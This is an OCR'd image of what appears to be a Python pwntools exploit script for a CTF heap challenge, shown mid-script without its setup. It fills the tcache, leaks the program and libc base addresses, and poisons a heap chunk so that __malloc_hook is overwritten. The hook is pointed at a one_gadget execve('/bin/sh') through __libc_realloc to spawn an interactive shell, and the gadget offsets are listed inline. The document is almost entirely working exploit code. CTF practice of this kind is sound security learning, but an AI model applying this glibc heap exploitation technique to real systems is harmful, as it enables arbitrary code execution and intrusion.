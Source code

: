 ```python
for i in range(7):
	add(i+4,0x28)
for i in range(7):
	free(i+4)

free(0)
free(1)
leaveYourName('k'*4)

show(7)

caddr=u64(p.recvuntil('\x55')[-6:].ljust(8,'\x00'))-0x970# 本来想直接给tachet结果发现搞复杂了

log.info(':'+hex(caddr))
show(1)


addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-96

log.info('main_arena:'+hex(addr))

base=addr-0x3afc40
log.info('base:'+hex(base))



add(10,0x18)
edit(10,'1111')

add(11,0x18)
free(11)

log.info('__malloc_hook:'+hex(base))
edit(0,p64(0)*2+p64(0x21)+p64(base+e.symbols['__malloc_hook']-0x10))
add(11,0x18)
edit(11,'kkkk')
add(12,0x18)
gdb.attach(p)
"""
0x41612 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x41666 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xdeed2 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

"""
edit(12,p64(base+0xdeed2)+p64(base+e.symbols['__libc_realloc']+4))
#gdb.attach(p)
add(3,0x20)
 
p.interactive()
```
